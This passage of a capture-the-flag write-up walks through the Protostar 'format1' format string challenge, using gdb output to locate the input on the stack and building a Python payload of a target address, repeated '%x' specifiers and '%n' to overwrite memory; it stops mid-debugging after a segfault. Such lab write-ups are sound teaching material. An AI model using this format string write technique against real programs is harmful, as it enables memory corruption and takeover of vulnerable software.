 We have to place it in the stack ourselves. We can do so using user input. As user input is passed to the `<main>` function as an argument, it will be present in the stack. The only question is, which part? Let's take a look. According to gdb, just before `<printf>` is called, `esp` has a value of `0xbffff670`. The string the user inputs is located in address `0xbffff8ab`.
```
[...]
(gdb) p/x $esp
$1 = 0xbffff670
(gdb) x/s 0xbffff8ab
0xbffff8ab:	 "%x%x"
(gdb) 
```
That means that the string is the 142.75th DWORD argument. You might think, "Woah, why is there a decimal?". It just means that the address of the string is not DWORD aligned. That will present a problem if the address of `target` is placed at the beginning of the string.
```
0xbffff8ab - 0xbffff670 = 0x23B
0x23B / 0x4 = 142.75
```
So, our input looks like this `"A <addr of target>_%x_%x..._%x_%n"`, where `"%x"` occurs 142 times. That way, `"%n"` references the 143rd argument, which will be the address of `target` in address `0xbffff8ac`. I even prepared us a Python script.
```
import struct

exploit = "A"
exploit += struct.pack("I", 0x08049638)

num_Dwords = 142

for i in range(num_Dwords):
        exploit += "_%x"

exploit += "%n"

print exploit
```

Unfortunately it did not work as intended. We got a segmentation fault. `"%n"` tried to access memory it should not.
```
user@protostar:/opt/protostar/bin$ cat /home/user/format1 | xargs ./format1
xargs: ./format1: terminated by signal 11
```
I edited the Python script to figure out what memory address was being written to. This time, I print `"%x"` 143 times (instead of 142) so the last argument that is printed is the address that `<printf>` tried to write to.
```
import struct

exploit = "A"
exploit += struct.pack("I", 0x08049638)

num_Dwords = 143

for i in range(num_Dwords):
        exploit += "_%x"

#exploit += "%n"

print exploit
```
